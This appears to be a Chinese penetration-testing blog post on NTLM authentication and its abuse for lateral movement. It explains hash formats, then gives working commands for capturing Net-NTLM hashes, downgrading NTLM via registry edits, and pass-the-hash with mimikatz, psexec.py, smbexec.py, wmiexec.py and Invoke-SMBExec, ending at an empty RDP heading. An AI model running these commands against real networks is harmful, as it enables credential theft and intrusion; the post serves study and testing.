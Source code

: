 ```yaml
---
title: NTLM认证与利用
date: 2019-12-31 23:59:52 +0800
categories: [域安全, TA0008横向移动]
tags: [NTLM, pass-the-hash, TA0008横向移动]     # TAG names should always be lowercase
typora-root-url: ..
---
```




# **原理**

## 一、Net-NTLM协议

[http://d1iv3.me/2018/12/08/LM-Hash%E3%80%81NTLM-Hash%E3%80%81Net-NTLMv1%E3%80%81Net-NTLMv2%E8%AF%A6%E8%A7%A3/](http://d1iv3.me/2018/12/08/LM-Hash、NTLM-Hash、Net-NTLMv1、Net-NTLMv2详解/)

## 1. LM Hash与NT Hash

LM Hash与NT Hash，密码根据固定算法转成的两种Hash，LM Hash更容易被破解

NTLM Hash = LM Hash + NT Hash，也有的会把NTLM Hash等同于NT Hash

## 2. Lan Manager认证 与 NT Lan Manager

其中NT Lan Manager有两个版本：Net-NTLMv1，Net-NTLMv2。这三个都属于认证协议，都是基于challenge/reponse的，但是用的Client Hash及对challenge加密方法不同。

在NT Lan Manager中，客户端最后给服务器的响应，称为**Net-NTLMv1 Hash及Net-NTLMv2 Hash**。

Lan Manager: 使用LM Hash

Net-NTLMv1: 使用LM Hash和NT Hash  

```
//Net-NTLMv1 Hash格式
username::hostname:LM response:NTLM response:challenge
```

Net-NTLMv2: 使用NT Hash

```
//Net-NLTMv2 Hash格式
username::domain:challenge:HMAC-MD5:blob
```



**工作组环境：**



![img](/assets/img/clipboard.png)

**域环境：**

![img](/assets/img/clipboard-1599139168229.png)

## 3. 各个版本对LM和NTLM的支持

![img](/assets/img/t01b500665781a9a455.png)



![img](/assets/img/t01004834cdf230e43d.png)

如果空密码或者不储蓄LM Hash的话，抓到的LM Hash是`AAD3B435B51404EEAAD3B435B51404EE`，这里的LM Hash值没有意义。



# 利用

## 一、 Hash窃取与破解

### 1. hashcat

Hashcat支持超过200种高度优化的hash算法，其中和NTLM hash相关的有4个，分别为NetNTLMv1、NetNTLMv1+ESS、NetNTLMv2和NTLM。

破解NetNTLMv1：[https://3gstudent.github.io/3gstudent.github.io/Windows%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81hash-Net-NTLMv1%E4%BB%8B%E7%BB%8D/](https://3gstudent.github.io/3gstudent.github.io/Windows下的密码hash-Net-NTLMv1介绍/)

```
username::hostname:LM response:NTLM response:challenge
```

破解NetNTLMv2：[https://3gstudent.github.io/3gstudent.github.io/Windows%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81hash-NTLM-hash%E5%92%8CNet-NTLM-hash%E4%BB%8B%E7%BB%8D/](https://3gstudent.github.io/3gstudent.github.io/Windows下的密码hash-NTLM-hash和Net-NTLM-hash介绍/)

```
username::domain:challenge:HMAC-MD5:blob
```

![img](/assets/img/clipboard-1599139397363.png)

### 2. Hash窃取与破解

- 同一网络内嗅探
- 中间人攻击
- 伪造服务器诱使用户输入凭据，在服务端收取Net-NTLM Hash

工具：

https://github.com/lgandx/Responder

https://github.com/Kevin-Robertson/Inveigh  

感觉不是每次都能抓到...



![img](/assets/img/clipboard-1599139437121.png)



#### 例1） 拿下文件服务器后，在服务器上抓包获取NTLM Respnse

> 如果获得了内网一个文件服务器的权限，那么内网中的其他主机在使用界面尝试访问该服务器时，首先会将本机的密码Hash发送至服务器进行验证，在服务器端抓取数据包能够获得NTLM Response，对NTLM Response的格式进行解析，提取特定信息，使用Hashcat尝试字典破解或者暴力破解，就有可能还原出用户本机的明文口令
>
> [渗透技巧——利用netsh抓取连接文件服务器的NTLMv2 Hash](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E5%88%A9%E7%94%A8netsh%E6%8A%93%E5%8F%96%E8%BF%9E%E6%8E%A5%E6%96%87%E4%BB%B6%E6%9C%8D%E5%8A%A1%E5%99%A8%E7%9A%84NTLMv2-Hash/)

```
netsh trace start capture=yes persistent=yes traceFile="c:\\test\\snmp1.etl" overwrite=yes correlation=no protocol=tcp ipv4.address=192.168.62.130 keywords=ut:authentication

Netsh trace stop
```

使用netsh抓包，得到 .etl 文件 -> windows message analyzer将其转换成.cap格式 -> wireshark 将其转为.pcap格式 -> python scapy模块自动解析数据包，提取NTLM Respnse。



#### 例2) 拿下文件服务器后，利用.scf或desktop.ini文件使得访问文件服务器的用户强制访问攻击者服务器，在攻击者服务器上抓包获取NTLM Hash



### 3. 降级

Net-NTLMv2 Hash暴力破解和字典破解难度比较高，如果有管理员权限，可将Lan Manager身份验证级别由Net-NTLMv2降为Net-NTLMv1

[https://3gstudent.github.io/3gstudent.github.io/Windows%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81hash-Net-NTLMv1%E4%BB%8B%E7%BB%8D/](https://3gstudent.github.io/3gstudent.github.io/Windows下的密码hash-Net-NTLMv1介绍/)

修改注册表：

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\ /v lmcompatibilitylevel /t REG_DWORD /d 2 /f reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ /v NtlmMinClientSec /t REG_DWORD /d 536870912 /f reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ /v RestrictSendingNTLMTraffic /t REG_DWORD /d 0 /f
```

实现工具：https://github.com/eladshamir/Internal-Monologue



## 二、Pass the Hash

需要攻击使用了NTLM认证的服务

### 1. IPC$，Winrm

**mimikatz**

```
privilege::debug
sekurlsa::pth /user:dell /domain:ring2.com /ntlm:B9E0CFCEAF6D077970306A2FD88A7C0A /run:powershell.exe
```

```
Set-Item WSMan:\localhost\Client\TrustedHosts -Value * -Force
Restart-Service WinRM
Enter-PSSession -ComputerName win10-pc3
```

![image-20201122131437489](/assets/img/image-20201122131437489.png)

创建定时任务来执行命令，at 命令或schtasks命令，启动的子进程是System权限

```
PS C:\Windows\system32> at \\192.168.240.128 4:37PM C:\Windows\System32\calc.exe
AT 命令已弃用。请改用 schtasks.exe。

新加了一项作业，其作业 ID = 3
```

![img](/assets/img/36-367970866.png)



**smbexec.py**

```
smbexec.py -hashes :B9E0CFCEAF6D077970306A2FD88A7C0A ./dell@192.168.240.147 -debug
```

**psexec.py**

```
psexec.py -hashes :B9E0CFCEAF6D077970306A2FD88A7C0A ./dell@192.168.240.147 -debug
```

**Invoke-SMBExec.ps1**

```
Invoke-SMBExec -Target #{host_ip} -Username "#{host_username}" -Hash B9E0CFCEAF6D077970306A2FD88A7C0A -Command "powershell.exe -c sleep 10;stop-process $pid -Force;"  -Verbose;
```



### 2. WMI

**wmiexec.py**

```
wmiexec.py -hashes :B9E0CFCEAF6D077970306A2FD88A7C0A dell@192.168.240.147 -debug
```

**Invoke-WMIExec.ps1**

```
Invoke-WMIExec -Target #{host_ip} -Username "#{host_username}" -Hash B9E0CFCEAF6D077970306A2FD88A7C0A -Command "powershell.exe -c sleep 10;stop-process $pid -Force;"  -Verbose;
```



### 3. RDP
